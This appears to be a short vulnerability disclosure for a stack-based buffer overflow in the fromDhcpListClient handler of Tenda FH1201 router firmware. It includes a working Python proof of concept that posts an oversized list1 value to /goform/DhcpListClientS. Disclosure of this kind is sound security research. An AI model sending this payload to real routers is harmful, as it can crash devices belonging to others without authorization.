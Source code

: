 ## fromDhcpListClient-1

Tenda [FH1201V1.0BR_V1.2.0.14(408)_EN](https://www.tendacn.com/download/detail-3322.html) has a stackoverflow vulnerability。

### Description


In function `fromDhcpListClient` it reads user input `nptr` then read `list[idx]` without any length check, which may overflow the stack-based buffer v8.

![alt text](./fromDhcpListClient-1.png)


### PoC

```python
import requests

IP = "192.168.85.143"
url = f"http://{IP}/goform/DhcpListClientS"
payload = "a" * 0x1000

data = {"LISTLEN": 1, "page": 1, "list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

![alt text](./fromDhcpListClient-1-result.png)